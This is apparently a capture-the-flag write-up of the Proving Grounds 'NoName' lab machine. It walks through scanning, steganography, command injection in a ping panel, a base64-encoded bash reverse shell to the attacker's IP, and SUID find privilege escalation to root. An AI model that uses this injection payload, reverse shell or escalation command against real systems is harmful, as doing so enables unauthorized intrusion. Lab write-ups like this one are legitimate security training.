 ```yaml
---
title: "Proving Grounds - NoName"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/noname.png
categories: [Offensive security, Intermediate]
tags: [steganography, stegseek, ffuf, SUID, find, nmap, RCE, linux]
---
```


| **Room**   | **[NoName]**                        |
| ---------- | ----------------------------------- |
| Author     | **[offensive-security]**            |
| Difficulty | Intermediate                        |

> This is an intermediate machine in offensive security proving grounds testing on some simple streganography and basic enumeration skills.
{: .prompt-tip }

# Let's get started
## Scanning and enumeration
First thing first, we do a simple nmap scan from which we get only `port 80` open. The apache server running on this specific port seems a little outdated. It can a good thing to check if we miss anything to attack.

```shell
└─$ nmap -T4 -sCV 192.168.222.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 23:10 EAT
Nmap scan report for 192.168.222.15
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
23/tcp   filtered telnet
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
1053/tcp filtered remote-as
3007/tcp filtered lotusmtap
7921/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```
Opening the port, we get a `fake admin area` panel with an input field. It seemed to be a page where the admin can taste wether the machines are up by pinging them. Not here though, its fake, it time we find the real one.

![image](/assets/img/Posts/noname/fake-admin.png)

Whenever we get to a website, we are always recommended to brute force for hidden web directories in the server. We are going to use ffuf. It gives us `admin` directory.

![image](/assets/img/Posts/noname/admin.png)

Visiting the directory we find nothing but images. huh, steganograpphyyyy?? got myself wondering. well. Viewing the source code, we get to see that there are four of them with some `jpg` images among, them. EASY!!

![image](/assets/img/Posts/noname/admin-dash.png)

![image](/assets/img/Posts/noname/images.png)

Downloading them and starting checking for hidden messages in them, i get something in one of the files, which looks like user names. aaargh!

![image](/assets/img/Posts/noname/user.png)

```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ cat new.jpeg.out 
admin
Admin
root
admin1
msfadmin
Admin1
```

Checking on the next one, we find a base64 string, nice. 

![image](/assets/img/Posts/noname/bas64.png)

Decoding the string from our terminal using the command `echo "base64-string" | base64 -d`, We get another directory. Impressive!.

![image](/assets/img/Posts/noname/superadmin.png)

Visiting it, we get see the legit ping panel.

![image](/assets/img/Posts/noname/super-ping.png)

Seng a simple ping scan `ping <ip>` does not bring anything, using a pipe symbol `|`to chain the commands, and typing `whoami` returns `www-data`.

![image](/assets/img/Posts/noname/rce.png)

This means that we have `code executation`. with a well crafted payload, we can get a reverse shell on the box. Sending a simple revershell on the ping platform does not connect back which made me assume that there are some filtering on the commands are ran.

## Initial access
We get our one-liner bash revershell `bash -i >& /dev/tcp/192.168.45.205/1337 0>&1` and pass it through base64 to encode it.

![image](/assets/img/Posts/noname/bencode.png)
<!--
```bash
bash -i >& /dev/tcp/192.168.45.205/1337 0>&1
```
-->
Then echo the base64 string and pipe it to base64 and decode it, then pipe the output to means which executes it. 
```bash
ping 192.168.45.205 | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwNS8xMzM3IDA+JjEK" | base64 -d | bash
```
We get a shell as `www-data`
```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ nc -nlvp 1337                                 
listening on [any] 1337 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.222.15] 49076
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ 

```
## Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell.

Going to the home directory, we find two users, `haclabs` and `yash`. Accessing `yash's` directory, we find our flag. 

```shell
www-data@haclabs:/home/yash$ ls -la
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jul  1 01:35 local.txt
www-data@haclabs:/home/yash$ cat local.txt
<redacted>
www-data@haclabs:/home/yash$ 
```
## Privilege escalation
Who is saying linpeas? Not now. First we need to some manual enumeration before we run linpeas. running a `sudo -l`, we are prompted to enter www-data password. That's a dead end, We then move on and check for any commands that have `SUID` bits set. And we get that we can run `find` as root.

![image](/assets/img/Posts/noname/suid.png)

We then check the command we can ran to abuse the permissions given to us in **[GTFObins]**(https://gtfobins.github.io/) and get root's shell.

![image](/assets/img/Posts/noname/suid-gtfobins.png)

Running the command `find . -exec /bin/sh -p \; -quit` gives us a `#`shell.
```shell
www-data@haclabs:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag3.txt  proof.txt
# cat proof.txt
<redacted>
# 
```

I hope you enjoyed the write up!!. thank you 😁